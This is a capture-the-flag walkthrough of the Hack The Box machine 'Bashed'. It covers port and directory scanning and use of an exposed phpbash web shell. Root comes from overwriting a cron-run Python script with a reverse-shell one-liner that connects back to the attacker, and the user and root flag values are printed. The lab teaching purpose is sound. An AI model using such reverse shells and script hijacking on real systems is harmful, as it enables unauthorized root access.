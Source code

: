 # bashed

[link to the box](https://app.hackthebox.com/machines/Bashed)

1. [scanning](#scanning)
2. [exploiting](#exploiting)
3. [pwning](#pwning)


# scanning

as with anything, we start by scanning the host's ip on all ports:

```
$ nmap -sV -Pn -p- 10.10.10.68
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

looks like a website, lets try visiting it.

![website](img/website.png)

ignoring the content about phpbash, there is a search field on the left hamburger menu. unfortunately, this is purely an aesthetic search bar and has no function.

taking a look at phpbash homepage, it claims that phpbash was developed on the same server the webpage is hosted, hinting that somewhere on the server the phpbash file exists. in one of the screenshots, phpbash is located at `uploads/phpbash.php`, but requesting that does not work. lets use `dirbuster` to try and find directories to explore.

```
$ dirb http://10.10.10.68:80/
...
==> DIRECTORY: http://10.10.10.68:80/css/
==> DIRECTORY: http://10.10.10.68:80/dev/
==> DIRECTORY: http://10.10.10.68:80/fonts/
==> DIRECTORY: http://10.10.10.68:80/images/
+ http://10.10.10.68:80/index.html (CODE:200|SIZE:7743)
==> DIRECTORY: http://10.10.10.68:80/js/
==> DIRECTORY: http://10.10.10.68:80/php/
+ http://10.10.10.68:80/server-status (CODE:403|SIZE:299)
...
```

dirbuster also claims that many of these directories are listable, meaning we dont have to run more dirbusters to see their contents.

lets check out http://10.10.10.68/dev/ as it has the most conspicuous name

![dev directory](img/dev-dir.png)

and the phpbash shell exists here!

notice how the dates modified are december 2017. looking at the [github page](https://github.com/Arrexel/phpbash/commits/master), you can see many vulnerabilities patched __after__ the date this file was modified, meaning that this is likely vulnerable to all of those things.

..but lets not get too ahead of ourselves, lets find our user flag first.

# exploiting

open one of the `.php` files to open a shell. we can now execute some commands on the remote

```
$ cd /home/arrexel
$ cat user.txt
ef4f90de22deea594984a66aa5e2934b
```

theres our first flag!

time to view some of those 'patched' vulnerabilities on the pages github!

# pwning

lets analyse the oldest version of the file on the server, last modified on `2017-11-30`. this file is likely to be the same as [this one on the github](https://github.com/Arrexel/phpbash/blob/456da922df6ec1977cb734f7b6151ade96f607e4/phpbash.php)

analysis of this file shows that we send a post request, which is unsanitised by the server and just executed. anything goes it seems!

first, lets do some basic manual enumeration.

```
$ whoami
www-data
$ sudo -l
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

looks like we are able to exectue commands as users `scriptmanager` nad `www-data`

continuing to dig around in the files, an interesting folder called `scripts` located in the root partition

```
$ ls /scripts/
test.py
test.txt
$ cat /scripts/*
Permission denied
```

lets try using our `scriptmanager` user:

```
$ sudo -u scriptmanager -- cat /scripts/*
f = open("test.txt", "w")
f.write("testing 123!")
f.close
testing 123!
```

looks like a cool python script! lets see if we can run it.

```
$ sudo -u scriptmanager -- python3 /scripts/
```
![unwritable directory](img/unwritable.png)

the script is unable to write to the file `test.txt`, but `scriptmanager` has access to write to the `test.py` file itself.

![test.txt gets updated periodically](img/scripts-update.png)

this means that some user with write permissions is periodically running `test.py`. we can write to `test.py` to make it create a reverse shell to our computer, and escalate up to said account.

we can also see that since the text file is owned by root, the account running the `test.py` file is root itself.

first, start an `nc` listener to recieve the reverse shell.

then write reverse shell code to `test.py` and wait for the connection!

```
$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your local ip>",<any sane port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' | sudo -u scriptmanager -- tee /scripts/test.py
```

after a few seconds, you should get a shell on your netcat listener!

![root shell](img/shell.png)

this is root.

the root flag is located in `/root/root.txt`

```
$ cat /root/root.txt
65fe81d316b6bb7356264032e390877c
```

congrats! you're winner.
